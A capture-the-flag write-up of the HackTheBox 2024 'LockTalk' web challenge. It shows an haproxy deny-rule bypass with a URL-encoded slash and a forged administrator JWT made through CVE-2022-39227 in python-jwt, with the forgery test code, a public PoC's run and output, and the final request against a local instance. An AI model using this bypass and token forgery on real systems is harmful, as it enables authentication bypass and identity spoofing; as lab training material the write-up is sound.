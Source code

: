 ```yaml
---
name: LockTalk (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for LockTalk (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# LockTalk

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=892 "HackTheBox Cyber Apocalypse '24: Lock Talk (web)")

## Description

> In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

## Solution

We can review source code but first let's check the site functionality. The homepage has 3 available API endpoints:

```txt
GET /api/v1/get_ticket - Generates a ticket (JWT token)
GET /api/v1/chat/{chatId} - Finds chat history by ID
GET /api/v1/flag - Retrieves the flag
```

Unfortunately, we can't execute the last two queries since they require a JWT. However, we can try to generate a JWT with `get_ticket`.

```txt
Forbidden: Request forbidden by administrative rules.
```

OK, I guess not then 🙃 I don't see any other interesting functionality and burp scanner didn't find anything notable. Time to review the source code!

The following line in `haproxy.cfg` explains the previous error. It's checking if our URL-decoded (`url_dec`), case-insensitive (`-i`) path begins (`path_beg`) with `/api/v1/get_ticket`.

```bash
http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

First, I thought maybe some [URL-format bypass tricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass) might be required to bypass the path check. Then I saw some [reports](https://portswigger.net/daily-swig/http-request-smuggling-bug-patched-in-haproxy) about [HTTP request smuggling in haproxy](https://gist.github.com/ndavison/4c69a2c164b2125cd6685b7d5a3c135b),

I quickly realised this was a dead end since none of the endpoints support POST requests and the `deny` rule doesn't appear to exclude internal traffic.

I decided to try [403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122) and found a few different techniques to bypass, e.g. this one with a URL-encoded `/`.

```bash
http://127.0.0.1:1337/%2fapi/v1/get_ticket
```

Now we have a valid JWT and can read chat history but not retrieve the flag.

Checking `jwt_tool`, we find information about the token.

```bash
jwt_tool eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODA5MTcsImlhdCI6MTcxMDA3NzMxNywianRpIjoiUkdjaHZFZVBNZFJYRlpQR2hHT0pOUSIsIm5iZiI6MTcxMDA3NzMxNywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.Vzxw0lMT-Gbr6TaxLw5_rge7mYRpBvl2D1D1h8pUymROJML9BeYnbp0j1G2qUgWk2SMJTB43dt5nNb7z3mjK_Oe7RwLHTHhCxxyAjO3z4U2XhpmRhXm6YYALZELFY00Kv0yJvqlshFdnOgK0VnU3ziiUJvJRpRL4WHpMVspAHPyf6YHcgDiWyJua5-3nGog1bYcQy9CuxYKTfeXhVRBzsyyOoJII0EggDJIzfadf1OXh2MzGrkaXCghe8Whb9VGsrBRDGsELc2p0UOBAljJuKaPS2RtheX2-Kb8RAQ_ZtD_XQm0RD2HhFOyRRhSyRXmvsj2m3vT34z5Ix8nG4SZb8Q

Token header values:
[+] alg = "PS256"
[+] typ = "JWT"

Token payload values:
[+] exp = 1710080917    ==> TIMESTAMP = 2024-03-10 14:28:37 (UTC)
[+] iat = 1710077317    ==> TIMESTAMP = 2024-03-10 13:28:37 (UTC)
[+] jti = "RGchvEePMdRXFZPGhGOJNQ"
[+] nbf = 1710077317    ==> TIMESTAMP = 2024-03-10 13:28:37 (UTC)
[+] role = "guest"
[+] user = "guest_user"

Seen timestamps:
[*] exp was seen
[*] iat is earlier than exp by: 0 days, 1 hours, 0 mins
[*] nbf is earlier than exp by: 0 days, 1 hours, 0 mins

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------
```

We're unable to crack secret due to an error: `Algorithm is not HMAC-SHA - cannot test against passwords, try the Verify function.`

If we simply change role to `administrator` and sign with the `none` algorithm: `algorithm not allowed: none`.

Similarly, trying to sign with a null key using the [JWT editor burp extension](https://github.com/PortSwigger/jwt-editor) returns `algorithm not allowed: HS256`, but there's no `PS256` option for us to experiment with.

We can try and generate a key.

```bash
openssl genpkey -algorithm RSA -out private.pem
openssl rsa -pubout -in private.pem -out public.pem
```

Then try to tamper (inject claim) and sign it with `PSS RSA` using the `jwt_tool` (great [wiki](https://github.com/ticarpi/jwt_tool/wiki)).

```bash
jwt_tool eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODMzNDksImlhdCI6MTcxMDA3OTc0OSwianRpIjoiR0pSLTJuS0JyV0VrMDNkdXNiOVRlZyIsIm5iZiI6MTcxMDA3OTc0OSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.IpTbfdY4bYGT0hLw9phgJlZVPAmBvze7KwY86jytKyqrSnIBZpUX_XG_oC8UUfUA8DCDZvsZteO1_QKLNqn2UHyDoVAdz0GUEMu8mTnM_CCxJ6jpfuI66cGWjyHJoQKYGhjLaC3ETJYMv38bCBKVUw2j5JgE_sJB-iMgcE-4EgDOfV_988bcGmWUbRoSEzFOTDLbhf15SkKEPnVIdCz00YKHJLJzMoFbGJimRcQTSXGlanfPOGao1V7r_d5VgntGELcuNuJpsq00rXLShsoRc1DXPvhtf_OVxvpQGo893UNUGAjHIPjhZZDA-sH_iyOC68Lf4NOBgUInxlkiN65tUg -I -pc role -pv administrator -S ps256 -pr private.pem
```

It does not work: `Verification failed for all signatures[\"Failed: [InvalidJWSSignature('Verification failed')]\"]`

OK, enough black box testing. We can check the source code and understand why this would fail; they generate their own key in `config.py`. Of course ours is not valid 😁

```python
JWT_SECRET_KEY = jwk.JWK.generate(kty='RSA', size=2048)
```

We can see how they generate the JWTs in `routes.py`.

```python
token = jwt.generate_jwt(claims, current_app.config.get('JWT_SECRET_KEY'), 'PS256', datetime.timedelta(minutes=60))
```

Finally, we confirm that the `/flag` route is only accessible using the `administrator` role.

```python
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```

I decided to look for any recent vulnerabilities in the [python-jwt](https://pypi.org/project/python-jwt/) package.

> **Note:** Versions 3.3.4 and later fix a [vulnerability](https://github.com/davedoesdev/python-jwt/security/advisories/GHSA-5p8v-58qm-c7fp) (CVE-2022-39227) in JSON Web Token verification which lets an attacker with a valid token re-use its signature with modified claims. CVE to follow. Please upgrade!

You don't say? That's exactly what we'd like to do! 😼

Let's check the [CVE-2022-39227 advisory](https://github.com/davedoesdev/python-jwt/security/advisories/GHSA-5p8v-58qm-c7fp)

> An attacker who obtains a JWT can **arbitrarily forge its contents without knowing the secret key**. Depending on the application, this may for example enable the attacker to spoof other user's identities, hijack their sessions, or bypass authentication.

It doesn't explain _how_ to forge a JWT but there are some accompanying [unit tests](https://github.com/davedoesdev/python-jwt/blob/master/test/vulnerability_vows.py)

```python
""" Test claim forgery vulnerability fix """
from datetime import timedelta
from json import loads, dumps
from test.common import generated_keys
from test import python_jwt as jwt
from pyvows import Vows, expect
from jwcrypto.common import base64url_decode, base64url_encode

@Vows.batch
class ForgedClaims(Vows.Context):
    """ Check we get an error when payload is forged using mix of compact and JSON formats """
    def topic(self):
        """ Generate token """
        payload = {'sub': 'alice'}
        return jwt.generate_jwt(payload, generated_keys['PS256'], 'PS256', timedelta(minutes=60))

    class PolyglotToken(Vows.Context):
        """ Make a forged token """
        def topic(self, topic):
            """ Use mix of JSON and compact format to insert forged claims including long expiration """
            [header, payload, signature] = topic.split('.')
            parsed_payload = loads(base64url_decode(payload))
            parsed_payload['sub'] = 'bob'
            parsed_payload['exp'] = 2000000000
            fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
            return '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'

        class Verify(Vows.Context):
            """ Check the forged token fails to verify """
            @Vows.capture_error
            def topic(self, topic):
                """ Verify the forged token """
                return jwt.verify_jwt(topic, generated_keys['PS256'], ['PS256'])

            def token_should_not_verify(self, r):
                """ Check the token doesn't verify due to mixed format being detected """
                expect(r).to_be_an_error()
                expect(str(r)).to_equal('invalid JWT format')
```

I started to build a custom script but had lots of python package issues and ended up finding a pre-existing [PoC](https://github.com/user0x1337/CVE-2022-39227) instead 😌

```bash
python exploit.py -j "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.kwkl8iEwG9TQW3ZAHvAssvlQbjNbwtUPlA06IPV0P6aIQLrhlMWnx5wOp-i4HcZzGCaqq72ib6PconjjHMc1nZonAkebESLL-41P78xgGqiftwyZIzZc9QN2KktcbeapFpkCeDb8CAVMDDEx7eEuuOHgozWgVUzuYUk5pWRJrOfqyAPSHmvN9gm14_DPqRbOFviNq5o8Uw9UFLE8djJM0uDR7LHvKLIiFqikGJ52aHrLNRQqAw927uyPQ_EvH0ldpHi9Y6jkyWuImTK8f43JhxyBJPUOQXnwNaGP9ukf9zWlvYK4ZLp27b41HZFAWBNRMxDdpHUn4ARM__v8h8B9gw" -i "role=administrator"
[+] Retrieved base64 encoded payload: eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
[+] Decoded payload: {'exp': 1710085391, 'iat': 1710081791, 'jti': 'beH5fPnzYFYY5CAEWO-ZuA', 'nbf': 1710081791, 'role': 'guest', 'user': 'guest_user'}
[+] Inject new "fake" payload: {'exp': 1710085391, 'iat': 1710081791, 'jti': 'beH5fPnzYFYY5CAEWO-ZuA', 'nbf': 1710081791, 'role': 'administrator', 'user': 'guest_user'}
[+] Fake payload encoded: eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9

[+] New token:
 {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"kwkl8iEwG9TQW3ZAHvAssvlQbjNbwtUPlA06IPV0P6aIQLrhlMWnx5wOp-i4HcZzGCaqq72ib6PconjjHMc1nZonAkebESLL-41P78xgGqiftwyZIzZc9QN2KktcbeapFpkCeDb8CAVMDDEx7eEuuOHgozWgVUzuYUk5pWRJrOfqyAPSHmvN9gm14_DPqRbOFviNq5o8Uw9UFLE8djJM0uDR7LHvKLIiFqikGJ52aHrLNRQqAw927uyPQ_EvH0ldpHi9Y6jkyWuImTK8f43JhxyBJPUOQXnwNaGP9ukf9zWlvYK4ZLp27b41HZFAWBNRMxDdpHUn4ARM__v8h8B9gw"}

Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"kwkl8iEwG9TQW3ZAHvAssvlQbjNbwtUPlA06IPV0P6aIQLrhlMWnx5wOp-i4HcZzGCaqq72ib6PconjjHMc1nZonAkebESLL-41P78xgGqiftwyZIzZc9QN2KktcbeapFpkCeDb8CAVMDDEx7eEuuOHgozWgVUzuYUk5pWRJrOfqyAPSHmvN9gm14_DPqRbOFviNq5o8Uw9UFLE8djJM0uDR7LHvKLIiFqikGJ52aHrLNRQqAw927uyPQ_EvH0ldpHi9Y6jkyWuImTK8f43JhxyBJPUOQXnwNaGP9ukf9zWlvYK4ZLp27b41HZFAWBNRMxDdpHUn4ARM__v8h8B9gw"}
```

Now, we just send the tampered token to the `/flag` endpoint in burp repeater and receive the flag.

```bash
GET /api/v1/flag HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1:1337/
Authorization: {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"kwkl8iEwG9TQW3ZAHvAssvlQbjNbwtUPlA06IPV0P6aIQLrhlMWnx5wOp-i4HcZzGCaqq72ib6PconjjHMc1nZonAkebESLL-41P78xgGqiftwyZIzZc9QN2KktcbeapFpkCeDb8CAVMDDEx7eEuuOHgozWgVUzuYUk5pWRJrOfqyAPSHmvN9gm14_DPqRbOFviNq5o8Uw9UFLE8djJM0uDR7LHvKLIiFqikGJ52aHrLNRQqAw927uyPQ_EvH0ldpHi9Y6jkyWuImTK8f43JhxyBJPUOQXnwNaGP9ukf9zWlvYK4ZLp27b41HZFAWBNRMxDdpHUn4ARM__v8h8B9gw"}
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
Sec-GPC: 1

```

Flag: `HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}`
